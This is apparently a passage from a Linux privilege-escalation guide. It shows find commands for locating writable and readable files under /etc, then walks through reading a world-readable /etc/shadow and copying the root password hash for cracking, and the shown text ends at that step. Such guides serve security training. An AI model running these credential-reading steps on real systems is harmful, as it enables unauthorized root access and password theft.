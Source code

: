 ## Timers

## File Permissions

If a system file has confidential information we can read, it may be used to gain access to a higher privileged account. If a system file can be written to, we may be able to modify the way it works and gain higher privilege access.

Enumerate all writable files in /etc:

```bash
find /etc -maxdepth 1 -writable -type f 2>/dev/null
```

Enumerate all readable files in /etc:

```bash
find /etc -maxdepth 1 -readable -type f 2>/dev/null
```

Enumerate all directories which can be written to:

```bash
find / -executable -writable -type d 2>/dev/null
```

### /etc/shadow

The `/etc/shadow` file stores user password hashes and is read-only by default for all users except root. We might be able to crack the root user's password hash if we can see the contents of the /etc/shadow file. We can change the root user's password hash with one we know if we can modify the /etc/shadow file.

To see which encryption method the `/etc/shadow` file is using, we can use the following command:

```bash
cat /etc/login.defs | grep "ENCRYPT_METHOD"
```

#### Shadow Privilege Escalation

1.  Enumerate the permissions of the `/etc/shadow` file:

    ```
    $ ls -l /etc/shadow
    -rw-r—rw- 1 root shadow 810 May 15 2021 /etc/shadow
    ```

    > Note that it is world readable.
2.  Copy the root user’s password hash:

    ```
    $ head -n 1 /etc/shadow
    root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXv
    RDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
    ```
3.  Paste the password hash in a file (e.g. hash.txt):

